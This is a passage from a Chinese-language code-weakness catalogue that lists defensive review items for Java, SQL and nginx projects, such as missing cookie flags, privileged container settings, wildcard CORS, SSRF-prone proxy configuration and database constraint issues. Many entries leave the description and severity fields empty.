   使用 OpenAPI 定义每个版本的接口契约；
   通过 Pact 或 Spring Cloud Contract 实现消费者驱动契约测试；
6. CI/CD 中加入接口兼容性检查（如 diff OpenAPI spec）。

#### CWD-1848-000 对外开放API变更未保持向后兼容

#### CWD-1848-001 对外接口入参校验增强导致不兼容

---

# CWD-1849 没有“HttpOnly”标志的敏感Cookie

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1849-000 没有“HttpOnly”标志的敏感Cookie

#### CWD-1849-001 使用Spring框架的CookieGenerator类创建会话cookie时，未调用setCookieHttpOnly函数将httponly设置为true

#### CWD-1849-002 手动构建cookie响应头时，未将HttpOnly值加到header值中

#### CWD-1849-003 通过实例化Cookie类实现会话cookie功能时，未通过setHttpOnly函数设置httponly为true

#### CWD-1849-004 使用Spring框架的ResponseCookie类创建会话cookie时，未调用httpOnly函数将httponly设置为true

#### CWD-1849-005 web.xml中配置session-config会话属性时，未设置http-only属性为true或被错误设置为false

---

# CWD-1850 不使用连接池的数据资源访问

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1850-000 不使用连接池的数据资源访问

#### CWD-1850-001 【Jedis使用不当导致的性能问题】没有通过JedisPool对象创建Jedis连接资源，使得频繁创建和销毁连接造成不必要的系统开销

---

# CWD-1851 访问控制粒度不够

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1851-000 访问控制粒度不够

#### CWD-1851-001 【Kubernetes配置使用了不当的网络配置】配置文件YAML中配置hostNetwork被设定为host网络，导致任意网络资源访问

#### CWD-1851-002 【Kubernetes配置使用了不当的网络配置】配置文件YAML中配置network_mode被设定为特权网络

#### CWD-1851-003 【zookeeper组件不安全配置，导致高危功能访问问题】zookeeper开启了危险的AdminServer功能

#### CWD-1851-004 【全网监听(IP为0.0.0.0)导致服务暴露，存在信息泄露和攻击风险】cfg文件使用了全网监听配置

#### CWD-1851-005 【全网监听(IP为0.0.0.0)导致服务暴露，存在信息泄露和攻击风险】conf文件使用了全网监听配置

#### CWD-1851-006 【网络未最小化隔离导致服务面暴露，存在信息泄露和攻击风险】全网监听(IP为0.0.0.0)导致服务暴露，存在信息泄露和攻击风险

---

# CWD-1852 具有不当SameSite属性的敏感Cookie

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1852-000 具有不当SameSite属性的敏感Cookie

#### CWD-1852-001 使用Spring框架的CookieGenerator类创建会话cookie时，未增加SameSite值

#### CWD-1852-002 手动构建会话cookie响应头时，未将SameSite值加到header值中

#### CWD-1852-003 通过实例化Cookie类实现会话cookie功能时，未增加SameSite值

#### CWD-1852-004 使用Spring框架的ResponseCookie类创建会话cookie时，未调用sameSite函数为会话cookie增加sameSite属性

---

# CWD-1853 权限分配不正确

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1853-000 权限分配不正确

#### CWD-1853-001 【Docker容器配置了不当特权capabilities】配置文件配置cap_add添加了不当特权的capability

#### CWD-1853-002 【Docker容器未开启安全计算模式】配置文件中配置seccomp被设定为未限制

#### CWD-1853-003 【Docker容器运行权限配置不当】Docker配置文件中USER配置以特权用户权限运行

#### CWD-1853-004 【Kubernetes配置使用了不当的权限配置】配置文件YAML中配置allowPrivilegeEscalation被设定为true

#### CWD-1853-005 【Kubernetes配置使用了不当的文件权限配置】配置文件YAML中配置readOnlyRootFilesystem被设定为关闭

#### CWD-1853-006 【Kubernetes配置使用了特权容器】配置文件YAML中配置privileged被设定为特权容器

#### CWD-1853-007 【Kubernetes配置使用了特权容器】配置文件YAML中配置runAsNonRoot被设定为特权容器

#### CWD-1853-008 【Kubernetes配置使用了特权容器】配置文件YAML中配置runAsUser被设定为特权容器

---

# CWD-1854 证书信任链的不当遵循

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1854-000 证书信任链的不当遵循

#### CWD-1854-001 【使用javax.net.ssl.X509TrustManager进行证书管理时存在的问题】未通过证书的checkValidity方法检查证书是否过期

#### CWD-1854-002 重写org.apache.http.ssl.TrustStrategy类的isTrusted函数时，未通过证书的checkValidity方法检查证书是否过期

---

# CWD-1855 证书过期验证不正确

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1855-000 证书过期验证不正确

---

# CWD-1856 敏感信息明文传输

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1856-000 敏感信息明文传输

#### CWD-1856-001 【CAS不安全配置导致明文传递序列化数据】CAS的webflow中加密配置未开启，造成明文传递序列化数据

---

# CWD-1857 符号名称未映射到正确的对象

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1857-000 符号名称未映射到正确的对象

#### CWD-1857-001 【创建索引操作不当导致的可靠可用性问题】使用PutMappingRequest创建新的索引后，没有设置映射json字符串导致数据类型错误映射等问题

---

# CWD-1858 网络消息量控制不足（网络放大）

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1858-000 网络消息量控制不足（网络放大）

#### CWD-1858-001 HWSF组件没有关闭json-pre-check导致资源耗尽的拒绝服务

---

# CWD-1859 使用包含敏感信息的Web浏览器缓存

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1859-000 使用包含敏感信息的Web浏览器缓存

#### CWD-1859-001 通过addHeader/setHeader方式单独为请求设置控制响应头Cache-control，造成部分请求对应的Response响应没有设置

#### CWD-1859-002 HTML/JSP页面在META元素配置Cache-control时配置值不合理

#### CWD-1859-003 BME框架通过bme.properties配置文件设置Cache-Control的值不正确

#### CWD-1859-004 BME框架通过HtmlResourceCacheFilter过滤器设置Cache-Control的值不正确

#### CWD-1859-005 servlet框架通过setHeader/addHeader配置Cache-Control的配置值不合理

#### CWD-1859-006 spring security安全框架通过HttpSecurity类调用disable函数关闭缓存控制响应头Cache-control的安全配置

#### CWD-1859-007 Usecurity安全框架通过FilterRegistrationBean<UsHeaderWriterFilter>过滤器设置Cache-Control的值不正确

#### CWD-1859-008 Usecurity安全框架通过web.xml配置过滤器时设置Cache-Control的值不正确

#### CWD-1859-009 Huawei WSF安全框架通过FilterRegistrationBean<HeaderWriterFilter>过滤器设置Cache-Control的值不正确

#### CWD-1859-010 Huawei WSF安全框架通过hwsf-security.xml配置文件中Cache-control节点配置disable关闭了默认安全头

#### CWD-1859-011 Huawei WSF安全框架通过web.xml配置过滤器时设置Cache-Control的值不正确

#### CWD-1859-012 nginx.conf配置文件中add_header配置项的缓存控制响应头Cache-Control的配置值不合理

---

# CWD-1860 通过目录列表公开信息

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1860-000 通过目录列表公开信息

#### CWD-1860-001 【nginx配置不当导致列目录问题】 nginx配置中autoindex设置为on导致列目录

---

# CWD-1861 敏感查询字符串的GET请求方法的使用

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1861-000 敏感查询字符串的GET请求方法的使用

#### CWD-1861-001 【使用HTTP-GET请求提交敏感数据】HttpClient的经典模式发起HTTP-GET请求，请求URL拼接敏感信息

#### CWD-1861-002 【使用HTTP-GET请求提交敏感数据】HttpClient的Fluent模式发起HTTP-GET请求，请求URL拼接敏感信息

#### CWD-1861-003 【使用HTTP-GET请求提交敏感数据】hutool发起HTTP-GET请求，请求URL拼接敏感信息

#### CWD-1861-004 【使用HTTP-GET请求提交敏感数据】springframework中的RestTemplate发起HTTP-GET请求，请求URL拼接敏感信息

#### CWD-1861-005 【使用HTTP-GET请求提交敏感数据】使用HttpURLConnection、HttpsURLConnection发起HTTP-GET请求，请求URL拼接敏感信息

#### CWD-1861-006 【重定向使用HTTP-GET方式提交敏感数据】手动设置header方式重定向，重定向URL拼接敏感信息

#### CWD-1861-007 【重定向使用HTTP-GET方式提交敏感数据】通过redirect返回String类型方式重定向，重定向URL拼接敏感信息

#### CWD-1861-008 【重定向使用HTTP-GET方式提交敏感数据】RedirectView方式重定向，重定向URL拼接敏感信息

#### CWD-1861-009 【重定向使用HTTP-GET方式提交敏感数据】HttpServletResponse.sendRedirect方式重定向，重定向URL拼接敏感信息

---

# CWD-1862 HTTPS会话中没有“安全”属性的敏感Cookie

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1862-000 HTTPS会话中没有“安全”属性的敏感Cookie

#### CWD-1862-001 使用Spring框架的CookieGenerator类创建cookie时，未调用setCookieSecure函数将Secure设置为true

#### CWD-1862-002 【未给cookie设置secure标志，无法防止cookie在http（明文协议）下被嗅探】手动构建cookie响应头时，未将Secure值加到header值中

#### CWD-1862-003 通过实例化Cookie类实现cookie功能时，未通过setSecure函数设置Secure为true

#### CWD-1862-004 使用Spring框架的ResponseCookie类创建cookie时，未调用secure函数将secure设置为true

#### CWD-1862-005 web.xml中配置session-config会话属性时，未设置secure属性为true或被错误设置为false

---

# CWD-1863 服务器端请求伪造(SSRF)

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1863-000 服务器端请求伪造(SSRF)

#### CWD-1863-001 【nginx配置不当导致SSRF问题】nginx配置中location的proxy_pass使用$uri作为指令参数，导致SSRF

---

# CWD-1864 非信任域的允许跨域策略

**描述**
**语言: **JAVA

**严重等级**


**cleancode特征**


#### CWD-1864-000 非信任域的允许跨域策略

#### CWD-1864-001 HTML/JSP页面在meta元素配置Content-Security-Policy时通过使用通配符*信任了所有域的资源

#### CWD-1864-002 servlet框架通过setHeader/addHeader配置的Content-Security-Policy值信任了所有域

#### CWD-1864-003 Spring Security框架通过HttpSecurity类调用contentSecurityPolicy函数配置内容安全策略时，存在信任所有域的情况

#### CWD-1864-004 USecurity 安全框架通过UsHeaderWriterFilter过滤器配置Content-Security-Policy内容安全策略时信任所有域

#### CWD-1864-005 USecurity 安全框架通过UsHeaderWriterFilter过滤器配置Content-Security-Policy内容安全策略时信任所有域

#### CWD-1864-006 Huawei WSF安全框架通过HeaderWriterFilter过滤器配置Content-Security-Policy内容安全策略时信任所有域

#### CWD-1864-007 Huawei WSF安全框架通过hwsf-security.xml配置content-security-policy的policy-directives属性时信任了所有域

#### CWD-1864-008 Huawei WSF安全框架通过HeaderWriterFilter过滤器配置Content-Security-Policy内容安全策略时信任所有域

#### CWD-1864-009 Nginx配置Content-Security-Policy时信任了所有域

#### CWD-1864-010 使用Spring框架的CookieGenerator类创建会话cookie时，禁止调用setCookieDomain函数设置Domain，需保持默认

#### CWD-1864-011 手动构建cookie响应头时，错误将Domain值加到header中

#### CWD-1864-012 通过实例化Cookie类实现会话cookie功能时，禁止调用setDomain函数设置Domain，需保持默认

#### CWD-1864-013 使用Spring框架的ResponseCookie类创建会话cookie时，禁止调用domain函数设置Domain，需保持默认

#### CWD-1864-014 web.xml中配置session-config会话属性时，设置了domain属性

#### CWD-1864-015 HTML/JSP页面在META元素配置跨域资源共享Access-Control-Allow-Origin属性时设置为*

#### CWD-1864-016 ServiceComb框架通过microservice.yaml将servicecomb.cors.origin配置为“*”

#### CWD-1864-017 Spring框架通过通过@CrossOrigin注解在Controller接口上设置信任所有域

#### CWD-1864-018 Spring框架在mvc:mapping中设置allowed-origin属性为*

#### CWD-1864-019 Spring框架通过setAllowedOrigins/addAllowedOrigin方法设置跨域的范围为*，造成所有外域均可访问

#### CWD-1864-020 Spring框架通过allowedOrigins/allowedOriginPatterns函数设置信任所有域

#### CWD-1864-021 Spring框架通过spring-websocket.xml设置allowed-origins属性为*信任所有域

#### CWD-1864-022 Spring框架通过setAllowedOrigins方法将allowed-origins响应头属性设置为*信任所有域

#### CWD-1864-023 nginx.conf配置文件中add_header配置Access-Control-Allow-Origin内容为*

#### CWD-1864-024 Tomcat通过FilterRegistrationBean<CorsFilter>设置cors.allowed.origins属性值为*

#### CWD-1864-025 Tomcat通过web.xmlCorsFilter设置cors.allowed.origins属性值为*

---

# CWD-1865 数据存储约束不合理

**描述**
文本类型字段长度过短、数值类型字段的范围不足等问题，导致数据无法正确保存到数据库中。

**语言: **SQL

**严重等级**
一般

**cleancode特征**
可维护,可测试

#### CWD-1865-000 数据存储约束不合理

---

# CWD-1866 数据库存储的数据格式不兼容

**描述**
存量数据与新数据在格式、取值等方面有所不同，但使用这些数据的代码没能完全支持存量数据。

**语言: **SQL

**严重等级**
严重

**cleancode特征**
可维护,可测试

#### CWD-1866-000 数据库存储的数据格式不兼容

---

# CWD-1867 Nginx配置中的location优先级不正确

**描述**
Nginx允许配置多个location。当同一个URL能够被多个location匹配的情况下，优先级高的location生效。在向已有的nginx配置中增加新的location时，需要注意新增location规则与存量location规则之间的优先级关系，避免新增location失效或覆盖了不应覆盖的原有location配置。Nginx的location匹配规则和优先级详见： https://nginx.org/en/docs/http/ngx_http_core_module.html#location

**语言: **C,CPP,JAVA,PYTHON

**严重等级**
一般

**cleancode特征**
可维护,可测试

#### CWD-1867-000 ginx配置中的location优先级不正确

---

# CWD-1868 空值未能正确处理

**描述**
对空值（null、空字符串）和值缺失的处理不当或未考虑，可能引起空指针问题或数值转化错误等。

**语言: **JAVA

**严重等级**
一般

**cleancode特征**
可维护,可测试

#### CWD-1868-000 空值未能正确处理

---

